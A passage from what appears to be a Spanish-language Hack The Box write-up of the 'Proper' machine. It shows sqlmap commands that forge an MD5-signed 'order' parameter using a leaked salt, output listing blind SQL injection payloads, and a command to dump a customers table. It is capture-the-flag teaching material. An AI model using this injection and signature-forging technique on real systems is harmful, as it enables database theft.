 ```shell
a1b30d31d344a5a4e41e8496ccbdd26b  -
```
Este secreto junto con el parámetro id desc hacen la cadena que tiene que coincidir con el parámetro h, podemos hacer uso de esto para hacer una inyección sql, para eso nos ayudamos de sqlmap.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper$ sqlmap -u 'http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b' --eval="import hashlib;h=hashlib.md5('hie0shah6ooNoim'.encode('ascii')+order.encode('ascii')).hexdigest()"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:08:16 /2023-04-30/

<SNIP>

GET parameter 'order' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 334 HTTP(s) requests:
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (5444=5444) THEN 'id desc' ELSE (SELECT 9613 UNION SELECT 3016) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: order=(CASE WHEN (9401=9401) THEN SLEEP(5) ELSE 9401 END)&h=a1b30d31d344a5a4e41e8496ccbdd26b
---
[18:14:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2016 or 2019 or 11 or 2022 or 10
web application technology: PHP 7.4.1, Microsoft IIS 10.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:14:31] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 324 times
[18:14:31] [INFO] fetched data logged to text files under '/home/gu3ro/.local/share/sqlmap/output/10.10.10.231'

[*] ending @ 18:14:31 /2023-04-30/
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper$ sqlmap -u 'http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b' --eval="import hashlib;h=hashlib.md5('hie0shah6ooNoim'.encode('ascii')+order.encode('ascii')).hexdigest()" -D cleaner -T customers --dump 
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```